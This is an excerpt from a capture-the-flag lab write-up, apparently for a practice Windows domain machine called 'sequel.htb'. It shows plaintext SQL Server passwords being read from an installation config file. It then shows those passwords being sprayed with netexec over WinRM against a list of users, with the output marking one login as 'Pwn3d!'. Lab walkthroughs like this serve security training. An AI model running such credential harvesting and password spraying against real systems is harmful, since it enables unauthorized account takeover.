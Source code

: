 Almost always the config files have credentials, so if we read that file: `type sql-Configuration.INI`.
####
```ruby
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```
####
Here there other credential, we don't now for which user work this password `WqSZAF6CysDQbGb3`, so to determine for which user work this password, we can create a password and user dicctionary to prove that credentials with **netexec** for *(MSSQL, LDAP, SMB)* services that is running in the target machine.
####
```ruby
netexec winrm 10.10.11.51 -u users.txt -p pass.txt
    Result ->
        WINRM       10.10.11.51     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
        WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\angela:0fwz7Q4mSpurIt99
        WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\oscar:0fwz7Q4mSpurIt99
        WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\kevin:0fwz7Q4mSpurIt99
        WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\ryan:0fwz7Q4mSpurIt99
        WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\angela:86LxLBMgEWaKUnBG
        WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\oscar:86LxLBMgEWaKUnBG
        WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\kevin:86LxLBMgEWaKUnBG
        WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\ryan:86LxLBMgEWaKUnBG
        WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\angela:Md9Wlq1E5bZnVDVo
        WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\oscar:Md9Wlq1E5bZnVDVo
        WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\kevin:Md9Wlq1E5bZnVDVo
        WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\ryan:Md9Wlq1E5bZnVDVo
        WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\angela:WqSZAF6CysDQbGb3
        WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\oscar:WqSZAF6CysDQbGb3
        WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\kevin:WqSZAF6CysDQbGb3
        WINRM       10.10.11.51     5985   DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 (Pwn3d!)
```
####
- ###### Netexec Param
    - `winrm` Specifies the service to test; there are others such as *(ldap, smb)*
